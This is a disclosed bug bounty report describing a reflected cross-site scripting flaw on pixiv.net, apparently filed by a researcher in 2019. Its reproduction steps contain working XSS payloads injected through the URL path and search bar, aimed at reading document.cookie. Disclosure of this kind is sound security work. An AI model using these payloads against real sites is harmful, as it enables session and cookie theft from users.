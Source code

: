 # XSS reflected on [https://www.pixiv.net]

## Report Details
- **Report ID**: 766633
- **URL**: https://hackerone.com/reports/766633
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-12-31T23:31:06.441Z
- **Disclosed**: 2020-12-17T03:33:46.885Z

## Reporter
- **Username**: bcobain23
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: pixiv

## Vulnerability Information
## Summary:
I found a xss reflected on https://www.pixiv.com URL and in the search bottom from Chrome IOS 13.1

## Steps To Reproduce:

  1. In the URL https://www.pixiv.net/en/%5B'-alert(document.cookie)-'%5D Add Payload ['-confirm(3)-']
  1. In the URL https://www.pixiv.net/en/%5B'-alert(document.cookie)-'%5D Add ['-alert(document.cookie)-']
  1. In the Search Bar Add ['-confirm(3)-'] and the URL is https://www.pixiv.net/en/tags/%5B'-confirm(3)-'%5D#discover

## Impact

Steal Cookie

## Attachments
- image3.jpeg
- image1.jpeg
- image0.png
- image2.png
